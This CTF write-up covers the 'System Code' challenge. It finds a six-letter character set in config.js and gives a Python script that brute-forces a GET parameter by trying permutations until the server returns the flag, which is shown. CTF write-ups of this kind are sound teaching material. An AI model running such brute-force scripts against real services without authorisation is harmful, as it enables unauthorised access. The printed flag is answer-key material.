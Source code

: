 ## System Code

Much headache in this one due to the Matrix and Alice in Wonderland references priming your brain for all sorts of rabbit holes. We are given the hint, "follow **the white rabbit**" and explicitly told we can bruteforce this challenge. Probably wouldn't mention that unless it is necessary somehow. But in order to do so, you need to know some parameters. Otherwise it could take forever.

Digging around through the source code we find within `config.js` a variable that contains some chars.
```js
backupGlyphsTwr: ["a", "b", "c", "d", "e", "f"], // The characters to fallback to if glyphs fail to load
```
**Twr** - The white rabbit
Well lets try to brute this using permutations of a-f since they probably don't want us to guess the length of the string, and people solved this rather quickly.

We can script a brute force of the `/enter=` parameter the input box sends as GET request.
```python
import requests
import itertools

# USE YOUR PORT
base_url = 'http://challenge.ctf.games:PORT/enter='

characters = ['a', 'b', 'c', 'd', 'e', 'f']
permutations = [''.join(p) for p in itertools.permutations(characters)]

def send_request(permutation):
    print(f"Attempting: {permutation}")
    url = f"{base_url}{permutation}"
    try:
        response = requests.get(url)
        print(response.text)
        if "Correct" in response.text:
            return True
    except requests.RequestException as e:
        pass
    return False

for permutation in permutations:
    if send_request(permutation):
        break
```
This will run through the permutations and display the response, stopping if "Correct" is returned by the server. Eventually it will work and you will see:
```python
Attempting: bfcead
Incorrect. You will receive the flag with the correct input.
Attempting: bfceda
Incorrect. You will receive the flag with the correct input.
Attempting: bfdace
Incorrect. You will receive the flag with the correct input.
Attempting: bfdaec
Correct! Here is your flag: flag{dc9edf4624504202eec5d3fab10bbccd}
```
